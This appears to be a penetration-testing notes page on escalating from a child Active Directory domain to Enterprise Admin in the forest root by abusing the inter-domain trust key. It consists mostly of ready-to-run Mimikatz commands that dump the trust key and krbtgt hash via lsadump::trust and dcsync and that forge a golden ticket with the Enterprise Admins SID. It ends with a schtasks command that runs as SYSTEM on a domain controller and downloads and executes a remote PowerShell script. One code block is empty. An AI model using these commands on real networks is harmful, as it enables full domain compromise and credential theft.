 # Trusted Key

## Trusted Key

Require to be domain Admin on the child domain

Can lead to Enterprise Admin compromise.

{% hint style="info" %}
* Child to Forest Root
* Domains in the same forest have a implicit 2-ways trust with other domains.
* Trust key between parent and child domains
{% endhint %}

2 ways to escalate privileges between 2 domains in the same forest :

* krbtgt hash
* Trust Tickets

## KRBTGT

### Get the Trust key

{% hint style="warning" %}
2 techniques are available :

* **lsadump::trust /patch**
* **lsadump::dcsync**
{% endhint %}

```csharp
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc02
```

![](<../../../../.gitbook/assets/image (2) (1).png>)

#### Second technique

```csharp
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:crook.badcorp.local /user:badcorp$"'
```

![](<../../../../.gitbook/assets/image (176).png>)

{% hint style="warning" %}
To access to the Root forest, the domain controller in the child forest will create a TGT for Root forest DC and indicate that it’s a referral to a TGS. This TGT is not signed by the krbtgt password hash but instead with the trust key
{% endhint %}

### Golden ticket to Root Forest Enterprise Admins

#### Get krbtgt hash on the child domain

```csharp
```

#### Golden Ticket

* Domains SID&#x20;

![](<../../../../.gitbook/assets/image (54).png>)

#### - Golden ticket :

```csharp
Invoke-Mimikatz -command '"kerberos::golden /user:idontexit /domain:crook.badcorp.local /krbtgt:redacted /sid:S-1-5-21-xxxxxxxxx-xxxxxx-xxxxx /sids:S-1-5-21-xxxxxxx-xxxxxx-519 /ptt"'
```

![](<../../../../.gitbook/assets/image (290).png>)

### Get shell

```csharp
 schtasks /create /S DC.test.lab.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR  "powershell.exe -c 'iex (New-Object  Net.WebClient).DownloadString(''http://172.16.100.82/polo.ps1''')'"
 schtasks.exe /run /S DC.test.lab.local /TN "STCheck"
```
